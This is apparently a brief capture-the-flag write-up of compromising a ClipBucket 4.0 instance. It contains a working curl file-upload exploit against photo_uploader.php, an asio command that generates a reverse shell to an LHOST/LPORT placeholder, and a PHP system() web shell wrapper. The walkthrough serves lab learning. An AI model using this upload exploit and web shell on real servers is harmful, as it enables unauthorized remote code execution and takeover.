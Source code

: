 We got a `clipbucket` instance. 

On the Title name we see that Clipbucket is using the version `4.0`.

I googled it and we found a few interesting vulnerabilities:

![](/assets/Clipboard_2021-03-18-21-19-40.png)

I used `searchsploit clipbucket` to look up for the vulnerability

![](/assets/Clipboard_2021-03-18-22-06-35.png)
I analyzed the last file with `searchsploit -x php/webapps/44250.txt`

And decided to use the following exploit:

```bash
curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php" "http://$HOST/actions/photo_uploader.php"
```

We re gonna create a file called `lmao.php` and use [asio](https://github.com/jackrendor/asio) to generate a reverse shell

```bash
asio -H LHOST -P LPORT -A -B
```
I took the payload and put inside the `lmao.php` file rwapped in the php `system` function:
```php
<?php system("ASIO_PAYLOAD"); ?>
```
